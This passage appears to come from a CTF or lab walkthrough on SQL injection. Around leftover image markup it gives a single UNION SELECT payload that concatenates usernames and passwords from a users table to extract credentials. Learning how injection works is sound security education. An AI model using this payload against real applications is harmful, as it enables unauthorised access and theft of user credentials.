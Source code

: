 <figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We could try to do the same for the password and go from there but let's directly concat the 2 in one query:

```
abcd'union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```
